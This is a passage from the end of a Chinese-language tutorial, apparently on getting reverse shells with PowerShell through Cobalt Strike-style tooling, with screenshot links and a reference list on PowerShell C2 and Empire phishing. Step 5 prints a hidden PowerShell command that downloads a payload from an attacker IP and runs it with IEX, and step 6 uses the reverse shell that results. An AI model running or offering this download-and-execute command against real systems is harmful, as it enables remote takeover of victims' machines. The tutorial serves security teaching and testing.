 ```` [![](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)

5)目标机执行powershell payload:<br>`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.159.134:83/a'))"`<br>
6)成功反弹shell后，右键interact 进入shell<br>[![](https://p4.ssl.qhimg.com/t0163313c089b761be5.png)](https://p4.ssl.qhimg.com/t0163313c089b761be5.png)



## 参考

[https://decoder.cloud/2017/01/26/dirty-tricks-with-powershell/](https://decoder.cloud/2017/01/26/dirty-tricks-with-powershell/)<br>[https://www.blackhillsinfosec.com/powershell-dns-command-control-with-dnscat2-powershell/](https://www.blackhillsinfosec.com/powershell-dns-command-control-with-dnscat2-powershell/)<br>[https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)<br>[http://www.hackingarticles.in/command-injection-exploitation-using-web-delivery-linux-windows/](http://www.hackingarticles.in/command-injection-exploitation-using-web-delivery-linux-windows/)<br>[https://evi1cg.me/archives/Nishang_shells.html](https://evi1cg.me/archives/Nishang_shells.html)<br>[https://evi1cg.me/archives/Cobalt_strike.html](https://evi1cg.me/archives/Cobalt_strike.html)
